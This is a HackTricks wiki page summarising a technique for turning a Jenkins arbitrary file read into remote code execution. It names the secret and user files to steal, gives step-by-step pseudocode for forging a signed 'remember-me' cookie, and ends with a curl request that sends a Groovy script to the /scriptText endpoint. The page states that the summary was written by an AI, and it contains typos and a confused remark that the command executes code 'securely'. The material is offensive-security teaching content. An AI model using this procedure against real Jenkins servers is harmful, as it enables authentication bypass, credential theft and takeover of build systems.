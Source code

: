 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" must be enabled (default setting).
* **Access Levels:** Attacker needs Overall/Read permissions.
* **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  * **Username**
  * **User seed**
  * **Timestamp**
  * **Password hash**

**Secret Key Extraction**

* Extract cryptographic keys used for signing the cookie:
  * **Secret Key:** `$JENKINS_HOME/secret.key`
  * **Master Key:** `$JENKINS_HOME/secrets/master.key`
  * **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

    {% code overflow="wrap" %}
    ```javascript
    tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adds one hour to current time
    ```
    {% endcode %}
*   **Concatenate Data for Token:**

    {% code overflow="wrap" %}
    ```javascript
    token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
    ```
    {% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

    ```javascript
    key = toAes128Key(masterKey)  // Convert master key to AES128 key format
    decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
    if not decrypted.hasSuffix("::::MAGIC::::")
        return ERROR;
    macKey = decrypted.withoutSuffix("::::MAGIC::::")
    ```

**Signature Computation**

*   **Compute HMAC SHA256:**

    ```javascript
    mac = HmacSHA256(token, macKey)  // Compute HMAC using the token and MAC key
    tokenSignature = bytesToHexString(mac)  // Convert the MAC to a hexadecimal string
    ```

**Cookie Encoding**

*   **Generate Final Cookie:**

    {% code overflow="wrap" %}
    ```javascript
    cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode the cookie data
    ```
    {% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
  * Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  * Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

    ```bash
    curl -X POST "$JENKINS_URL/scriptText" \
    --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
    --header "Jenkins-Crumb: $CRUMB" \
    --header "Content-Type: application/x-www-form-urlencoded" \
    --data-urlencode "script=$SCRIPT"
    ```

    * Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

